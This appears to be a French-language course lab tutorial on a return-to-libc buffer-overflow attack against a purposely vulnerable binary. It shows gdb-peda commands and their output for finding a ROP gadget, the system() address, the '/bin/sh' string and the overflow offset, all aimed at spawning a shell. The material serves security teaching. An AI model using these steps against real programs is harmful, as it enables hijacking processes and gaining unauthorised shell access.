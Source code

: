 ## Return 2 libc

* Le binaire est compilé avec le flag NX activé (moyen de protection par le noyau rendant la pile non exécutable).

* Le mécanisme de randomisation de l'espace d'adresse ASLR est désactivé


![ret1](https://github.com/aabda2000/sti3a-security/assets/38082725/a7908f53-49b0-4ed9-8a84-5e8b42212306)


## Comment retourner à libc ?
Ici, l'objectif est de détourner le flot d'exécution normal du processus : Il s'agit de le rediriger pour exéuter la fonction system de libc:

int system(const char *command). 

plus précisément, on voudrait exécuter l'instruction : system("/bin/sh")

## Gadget poprdi ?

On commence notre investigation par la recherche d'un gadget de type pop rdi (il faut d'abord faire un break,sur vuln par exemple, dans gdb, et ensuite lancer le programme):


![ret2](https://github.com/aabda2000/sti3a-security/assets/38082725/b24826df-0697-4033-baf7-e3a3d395324a)

sinon, vous pouvez cherchez ce gadget en fournissant les adresses de début et de fin de mappage de libc:

![ret3](https://github.com/aabda2000/sti3a-security/assets/38082725/50c7c117-e152-4260-a75e-13440038dfa0)


gdb-peda$ ropsearch "pop rdi ; ret" 0x00007ffff7dee000 0x00007ffff7faf000

ou

gdb-peda$ dumprop

ou

gdb-peda$ asmsearch "pop rdi ; ret"

## Chercher l'adresse de la chaîne "/bin/sh"

![ret4](https://github.com/aabda2000/sti3a-security/assets/38082725/e73f41cb-5a46-478e-8a6c-3b82b30164a4)

## Chercher l'adresse de la fonction system

gdb-peda$ p system

$1 = {int (const char *)} 0x7ffff7e36e50 <__libc_system>
gdb-peda$

## Chercher l'offset

gdb-peda$ pattern_create 400 entry.txt

Writing pattern of 400 chars to filename "entry.txt"

gdb-peda$ 

gdb-peda$ r < <(cat entry.txt)

Starting program: /home/insa/advanced/secu/cm/02-ret2libc/ret2libc < <(cat entry.txt)

adress of buf=0x7fffffffde10

Stopped reason: SIGSEGV

0x0000000000401178 in vuln () at ret2libc.c:10

10	}

gdb-peda$ x/1wx $rsp

0x7fffffffde98:	0x41514141

gdb-peda$ pattern offset 0x41514141

1095844161 found at offset: 136


l'offset vaut 136

La génération d'une erreur de segmentation (et d'un coredump (contenant l'état de la mémoire au moment du décès du processus,
sous GNU/Linux) est le syndrome que notre application est effectivement affectée par l'insertion d'un trop grand nombre de caractères en entrée.

## Lancez l'attaque

Mettez les différentes adresses trouvées dans le script pyton ret2libc.py et exécutez-le ensuite:

![ret5](https://github.com/aabda2000/sti3a-security/assets/38082725/1880213c-e883-4757-aefa-1679fe2e8eba)
